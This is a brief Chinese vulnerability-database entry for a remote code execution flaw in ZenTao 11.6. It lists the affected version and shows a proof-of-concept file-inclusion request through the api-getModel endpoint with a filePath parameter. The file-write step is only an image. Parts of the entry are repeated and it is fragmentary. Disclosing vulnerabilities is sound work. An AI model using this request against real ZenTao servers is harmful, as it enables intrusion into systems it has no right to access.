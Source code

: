 ```yaml
---
title: '禅道11.6RCE漏洞'
date: Thu, 17 Sep 2020 01:55:17 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

禅道 11.6

### 漏洞POC

文件写入

### 漏洞范围

禅道 11.6

### 漏洞POC

文件写入![](%E7%A6%85%E9%81%9311.6RCE%E6%BC%8F%E6%B4%9E/wp_editor_md_161ea4340a8a62b6623dcb3c8f58ac7e.jpg) 文件包含
http://127.0.0.1/zentaopms_11.6/www/api-getModel-api-getMethod-filePath=/tmp/123/1 

